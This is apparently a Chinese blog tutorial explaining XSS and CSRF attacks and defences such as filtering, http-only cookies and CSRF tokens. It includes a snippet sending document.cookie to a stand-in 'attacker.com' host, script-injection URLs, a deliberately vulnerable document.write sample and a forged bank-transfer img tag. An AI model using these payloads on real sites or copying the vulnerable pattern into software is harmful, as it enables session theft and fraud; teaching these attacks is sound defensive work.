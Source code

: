 ```yaml
---
title: xss和csrf
date: 2018-07-09 11:02:34
tags: 浏览器
---
```


# xss

> cross site scripting 的缩写，即跨站脚本攻击（为了不与 css 混淆）

- 主要分为三类，反射型、保存型和基于 dom 的 xss 攻击。这些漏洞的基本原理都一样，但是确定和利用漏洞方面又存在很大差异。

## 反射型

- 如果一个 web 程序可以动态的显示用户的错误信息，就有可能产生反射型漏洞
- 显著特征是应用程序没有进行任何过滤和净化措施

### 案例

- 如果一个网站的错误消息是这样显示的，www.xxx.com/error.php?message=sorry,an error occurred，然后服务器根据得到的 message，不进行过滤，复制到错误页面的模板<p>sorry,an error occurred</p>，返回给用户
- www.xxx.com/error.php?message=<script>alert(1)</script>，当用户打开错误页面的时候，就会出现<p><script>alert(1)</script></p>，弹出一个消息框

- 当然攻击者不会很傻的只 alert 一些消息，通常 xss 都会伴随会话劫持，截获通过验证的会话令牌。
- 截获用户的会话后，就可以访问该用户授权访问的所有数据和功能
- 比如攻击构造这样一个 url，message 信息如下

```javascript
let i = new Image();
i.src = "http://attacker.com?cookie=" + document.cookie;
```

- 由于浏览器的同源策略，直接向 attacker.com 发送 cookie 是无法获得 www.xxx.com 的 cookie，但是 img，iframe，scipr 标签可以跨域，这就是该漏洞被成为跨站脚本的原因。

## 保存型

- 脚本通常保存在后端数据库，不经过过滤就存储并且显示给用户
- 与反射性的流程不同的是，保存型需要向服务器提出至少两次请求，第一次将含有恶意代码的数据提交给服务器，服务器将数据保存，第二次是受害者访问含有恶意代码的数据，恶意代码执行
- 与反射型不同的是，保存型不需要一个专门设计的 url 来接受 cookie，只需要将含有恶意代码的页面发给用户，等待受害者访问即可。不过也可以用保存型的漏洞来获取用户 cookie 劫持。
- 如果社交论坛存在保存型的 xss 漏洞，黑客将自己的个人信息一栏修改成恶意的 js 代码，该代码实现两个功能，首先受害者先加自己为好友，然后修改受害者的个人信息为该恶意代码。黑客把个人信息保存并提交给服务器，只需要等受害者访问自己的个人信息页面，浏览器就会执行恶意脚本，然后可怕的“蠕虫”就开始了

## 基于 dom 的 xss 漏洞

- 前两种 xss 漏洞，都表现为一种特殊的模式，就是应用程序提取数据并返回给受害者。而基于 dom 的 xss 不具有这种特点，攻击者是借助于 javascript 来展开攻击的

## 案例

```javascript
let url = document.location;
let message = /message=(.+)$/.exec(url)[1];
document.write(message);
// js脚本中这样写，如果攻击者给受害者发送www.xxx.com/error.php?message=<script>alert(1)</script>，也可以展开xss漏洞攻击
```

- 所以写 js 的前端同学注意了，万一写出了有漏洞的代码，这锅得自己背。

## 解决方案

- 过滤一些关键字
- Cookie 防盗，在 Cookie 中防止放入用户名和密码，对 Cookie 信息进行 MD5 等算法进行多次散列存放，必要时还要对 ip 和 cookie 进行绑定，一旦检测异常，立马让用户重新登录；设置 http-only（不能用 js 脚本进行获取）

# csrf

> cross site request forgery 的缩写，即跨站脚本请求伪造

- 顾名思义是，是伪造请求冒充用户在站内的正常操作。
- 我们知道绝大多数网站是通过 cookie 等方式辨识用户身份（包括服务器端 session 的网站，因为 session id 大多也是保存在 cookie），再予以授权。
- 所以要伪造用户的正常操作，最好是通过 xss 或者链接欺骗等途径，让用户再本机（即拥有身份 cookie 的浏览器端）发起用户所不知道的请求（xss 是实现 csrf 的手段之一）

## 案例

- 一论坛网站的发帖是通过 get 请求访问，点击发帖之后 js 把发帖内容拼接成目标 url 并访问：http://example.com/bbs/create_post.php?title=标题&content=内容
- 那么我在论坛发一贴http://example.com/bbs/create_post.php?title=我是脑残&content=哈哈，只要有用户看到这个链接，那么他们的账户就会在不知情的情况下发布了这一个帖子。
- 如果一家银行用以执行转账操作的 url 为 http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName，那么黑客可以可以再另一个网站上放置如下代码：<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">
- 如果有账户名为 alice 的用户访问了恶意站点，而她之前也刚访问锅银行不久，登陆信息尚未过期，那么她就会损失 1000 元

## 解决方案

- 如何解决这个问题，过滤用户输入，不允许发布这种含有站内操作 url 的链接，这么做可能有点用，但是阻挡不了 csrf，因为攻击者可以通过 qq 发布这个链接，这样点击到这个链接的用户一样会中招。

- 所以对待 csrf，我们的视角需要和对待 xss 有所不同。csrf 不一定要有站内的输入，因为他不属于注入攻击，而是属于请求伪造。被伪造的请求可以是任何来源，而非一定是站内。

- 过滤请求的处理者
  - 检查 Referer 字段：可以检查是否来源于该域名（但是请求者是可以更改 http 请求头的，他可以给这个任何值）
  - 添加校验 token：也就是请求令牌，由于 csrf 的本质在于攻击者欺骗用户去访问自己设置的地址，所以如果要求再访问敏感数据请求的时候，要求用户浏览器提供不保存在 cookie 中，并且攻击者无法伪造的数据作为校验，那么攻击者就无法执行 csrf 攻击。这种数据通常是表单中的一个数据项。服务器将其生成并附加在表单中，其内容是一个伪乱数。当客户端通过表单提交请求的时候，这个伪乱数也一并提交上去校验。
- 改良站内 api 的设计，对于发布帖子这类创建资源的操作，应该只接受 post 请求，而 get 请求应该只浏览。最好是采用 RESTFUL 风格设计。

# 推荐阅读

- [总结 xss 与 csrf 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)

